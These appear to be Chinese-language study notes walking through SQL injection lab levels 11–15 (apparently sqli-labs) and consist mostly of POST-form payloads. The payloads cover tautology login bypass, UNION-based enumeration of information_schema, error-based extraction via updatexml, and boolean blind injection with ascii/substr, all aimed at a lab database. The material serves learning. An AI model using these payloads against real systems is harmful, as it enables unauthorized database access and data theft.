和前面不同，开始进行post传参

# 11
- ' or 1=1 -- a
- 'or 1=1 order by 2 -- a (也可以用这个来判断字段)

- 'union select 111,222 -- a


- ' union select 111,database() -- a


- ' union select 111,table_name from information_schema.tables where table_schema='security' -- a


- ' union select 111,column_name from information_schema.columns where table_schema='security' and table_name='emails' -- a


- ' union select 111,id from emails -- a


# 12
和11一样，只是闭合问题

- ")or 1=1 -- a


......

# 13【和前面不太一样】
正常情况：



- 当我们输入1'和1时候页面没有反应,当我们输入1"的时候页面出现报错信息，就可以知道sql语句是双引号且有括号(12关)


- 1') or 1=1 #         (在'里面带上数值)
- 1') or 1=2 #

- 判断库名：')and updatexml(1,concat(0x7e,(SELECT database()),0x7e),1)-- qwe
- 判断表名：')and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='security'limit 0,1),0x7e),1)-- qwe
- 判断列名：')and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema='security' and table_name='emails' limit 0,1),0x7e),1)-- qwe
- 判断数据：')and updatexml(1,concat(0x7e,(select id from emails limit 0,1),0x7e),1)-- qwe

# 14【开始懵逼】
这里，当我用   1") or 1=1 #  尝试是，报错，而  1') or 1=1 #  没显示这错误，说明"应该是突破点


- 1" or 1=1 #

- 1' or 1=1 #

- 【- 不知道为什么and不管用，也不知道为什么要用or找出引号再用and？？？】

- "and updatexml(1,concat(0x7e,(SELECT database()),0x7e),1)-- qwe(不要忘了中间还有select)

# 15【没有显错位】【这里的盲注和事前的不同，一个是and，一个是or（原因：B站15-17，7min左右）】
用一些语句查找后发现没有出现报错语句，只有是否成功，那就不能用报错注入，可以试试盲注

- 1") or 1=1 #
- 1') or 1=1 #
- 1" or 1=1 #
- 1' or 1=1 # (只有这个显示登录成功，说明可以从'突破)

- ' or (length(database())=8) -- a
- ' or (ascii(substr(database(),1,1)))=115 -- a
- ' or (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)))=101 -- a
- ?id=1' and (ascii (substr ((select column_name from information_schema.columns where table_name='emails' limit 0,1),1,1)))=105-- qwe

